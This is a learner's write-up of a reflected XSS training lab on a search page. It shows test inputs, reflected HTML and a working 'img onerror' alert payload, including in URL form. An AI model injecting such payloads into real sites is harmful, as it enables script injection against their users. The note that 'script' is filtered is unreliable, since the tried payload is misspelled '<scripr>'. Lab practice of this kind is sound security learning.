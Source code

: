 ## 🧪  Lab: Reflected XSS into HTML context with nothing encoded  
**Level:** APPRENTICE  

---

## 🔗 Lab URL  
[https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/](https://0a130085045e67ba8032039b00c5004a.web-security-academy.net/)

---

## 🧪 Steps (My Approach)

1. ✅ **Typed `coffee`** in search → reflected in:
   - URL parameter  
   - Page body:
     
   ```html
     <h1>0 search results for 'coffee'</h1>
     ```

2. ✅ **Tested `coffee">`**  
   → Output:  
   ```html
   <h1>0 search results for 'coffee">'</h1>
   ```

3. 🔄 **Tried basic XSS payload**:  
   ```html
   coffee<scripr>alert(1)</script></h1><!--
   ```
   ❌ Blocked: word `script` is filtered.

4. ✅ **Bypassed using `img` tag**:  
   ```html
   coffee<img src=x onerror="alert(1)"></h1><!--
   ```
   🎉 Success! Alert triggered → lab solved.

---

## ✅ Final Payload  
```html
<img src=x onerror="alert(1)">
```

Encoded in URL:  
```
?search=coffee<img src=x onerror="alert(1)"></h1><!--
```

---

## 🛠 Tools  
- Manual testing in browser  
- View Page Source  
- Tried different payloads (script bypass)

---

## 🎯 Goal  
Trigger a JavaScript alert using reflected XSS.

---

## 🧠 Notes  
- No filtering on special characters like `>`  
- Only `<script>` is blocked  
- Closing tags + `<!--` useful to preserve page layout

---

## ✅ Status: Solved
